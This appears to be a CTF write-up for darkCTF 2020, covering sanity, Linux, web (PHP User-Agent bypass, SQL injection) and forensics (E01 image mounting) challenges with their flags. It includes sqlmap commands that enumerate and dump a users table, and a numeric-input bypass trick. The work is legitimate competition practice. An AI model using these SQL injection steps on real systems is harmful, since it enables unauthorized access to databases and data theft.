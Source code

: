 ## Misc

### sanity_check
![](img/sanity_check02.png)

We got our first flag from Discord

![](img/sanity_check.png)

**Flag: darkCTF{w3lc0me_t0_darkCTf_h4v3_fUn}**

## Linux
### linux starter
![](img/linux_starter.png)

Okay lets fire up the terminal

```shell
root@*****:/home/z3n# ssh wolfie@linuxstarter.darkarmy.xyz -p 8001                                                  
The authenticity of host '[linuxstarter.darkarmy.xyz]:8001 ([52.66.238.72]:8001)' can't be established.                 
ECDSA key fingerprint is SHA256:c89dVKmOwWcuk3nhpaDFytMNR3U8Ph44wwIjTm8VECY.                                            
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes                                                
Warning: Permanently added '[linuxstarter.darkarmy.xyz]:8001,[52.66.238.72]:8001' (ECDSA) to the list of known hosts.   
Password: wolfie
wolfie@9ad161dbc9ce:~$
wolfie@9ad161dbc9ce:~$ ls
bin  imp                                                                                                                
wolfie@9ad161dbc9ce:~$ cd imp/
wolfie@9ad161dbc9ce:~/imp$ ls
flag.txt                                                                                                                
wolfie@9ad161dbc9ce:~/imp$ cat flag.txt                                                                                 
darkCTF{h0pe_y0u_used_intended_w4y}                                                                                     
```
**Flag: darkCTF{h0pe_y0u_used_intended_w4y}**

## Web
### Source
![](img/source00.png)

They gave us a source File:
```php
<html>
    <head>
        <title>SOURCE</title>
        <style>
            #main {
    height: 100vh;
}
        </style>
    </head>
    <body><center>
<link rel="stylesheet" href="https://www.w3schools.com/w3css/4/w3.css">
<?php
$web = $_SERVER['HTTP_USER_AGENT'];
if (is_numeric($web)){
      if (strlen($web) < 4){
          if ($web > 10000){
                 echo ('<div class="w3-panel w3-green"><h3>Correct</h3>
  <p>darkCTF{}</p></div>');
          } else {
                 echo ('<div class="w3-panel w3-red"><h3>Wrong!</h3>
  <p>Ohhhhh!!! Very Close  </p></div>');
          }
      } else {
             echo ('<div class="w3-panel w3-red"><h3>Wrong!</h3>
  <p>Nice!!! Near But Far</p></div>');
      }
} else {
    echo ('<div class="w3-panel w3-red"><h3>Wrong!</h3>
  <p>Ahhhhh!!! Try Not Easy</p></div>');
}
?>
</center>
<!-- Source is helpful -->
    </body>
</html>
```
and for the flag we need to validate:
```php
$web = $_SERVER['HTTP_USER_AGENT'];
if (is_numeric($web)){
      if (strlen($web) < 4){
          if ($web > 10000){
                 echo ('<div class="w3-panel w3-green"><h3>Correct</h3>
  <p>darkCTF{}</p></div>');
```
from a google search I found out you can pass '9e9' as User-Agent, which is a numeric, has only length of 3, and its equal to 9000000000 which is obviously more than 10000.
I edited the user-agent to '9e9 'and sent a new request from my firefox and got the flag.

![](img/source01.png)

**Flag: darkCTF{changeing_http_user_agent_is_easy}**


### Apache Logs
![](img/apache_logs.png)

From the logs we could see some SQLi payloads
after URL Decoding;
![](img/apache_logs01.png)

Then I used cyberchef to decode from decimal to ascii
![](img/apache_logs02.png)

**Flag: DarkCTF{5ql_1nj3ct10n}**


### Simple_SQL
![](img/simple_sql00.png)

I visted the website and from the source code they mentioned to use 'Try id as parameter':
```html
<!DOCTYPE html>
<html>
<head>
<title>Simple SQL</title>
<style>
</style>
</head>
<body bgcolor=black>
<center><font color=red class=title>Welcome Players To My Safe House </font></center> <br>
<br><!-- Try id as parameter  --> 
</body>
</html>
```
Let's start from 1
![](img/simple_sql01.png)

from the 9th entry we got the flag
![](img/simple_sql.png)
**Flag: darkCTF{it_is_very_easy_to_find}**

### So_Simple
![](img/so_simple.png)  
Like previous challenge they gave a clue 'Try id as parameter'.
Okay, I was able to produce a sql error in /?id='
Lets try with SQLi. They mentioned 'You may get flag manually'. I was lazy and used SQLMap, maybe this is not the intented way to solve.
Here is the commands I used:
```shell
sqlmap -u http://web.darkarmy.xyz:30001/?id=8 --dbs
sqlmap -u http://web.darkarmy.xyz:30001/?id=8 --tables -D id14831952_security
sqlmap -u http://web.darkarmy.xyz:30001/?id=8 --columns -D id14831952_security -T users
sqlmap -u http://web.darkarmy.xyz:30001/?id=8 --dump -D id14831952_security -T users
```
we got the flag from users table  
![](img/so_simple01.png)  
**Flag: darkCTF{uniqu3_ide4_t0_find_fl4g}**

## Forensics
### Wolfie's Contact
![](img/contact00.png)  
There is a attached file: wolfie_evidence.rar. It contains an E01 file.  
What's a E01 File?
> The E01 (Encase Image File Format) file keeps backup of various types of acquired digital evidences that includes disk imaging, storing of logical files, etc

okay, we have to do some digging on this file
```bash
root@z3n:/home/z3n/CTF/darkCTF_2020/forensics# mkdir /mnt/ewf
root@z3n:/home/z3n/CTF/darkCTF_2020/forensics# ewfmount wolfie_evidence.E01 /mnt/ewf
root@z3n:/home/z3n/CTF/darkCTF_2020/forensics# cd /mnt/ewf
root@z3n:/mnt/ewf# ls
ewf1
root@z3n:/mnt/ewf# mkdir /mnt/windows_mount
root@z3n:/mnt/ewf# mount -o loop,ro,show_sys_files,streams_interface=windows /mnt/ewf/ewf1 /mnt/windows_mount
root@z3n:/mnt/ewf# cd /mnt/windows_mount
root@z3n:/mnt/windows_mount# cd contacts
root@z3n:/mnt/windows_mount/contacts# ls -la
```
![](img/contact01.png)  
I realized the flags are splitted in Notes section in each contact.

```bash
root@z3n:/mnt/windows_mount/contacts# cat * | grep "Notes"
```  
![](img/contact02.png)

**Flag: darkCTF{C0ntacts_4re_1mp0rtant}**

Resource: https://digital-forensics.sans.org/media/sift_cheat_sheet.pdf

~~~
ToDo: add Official and Community Writeup links
~~~
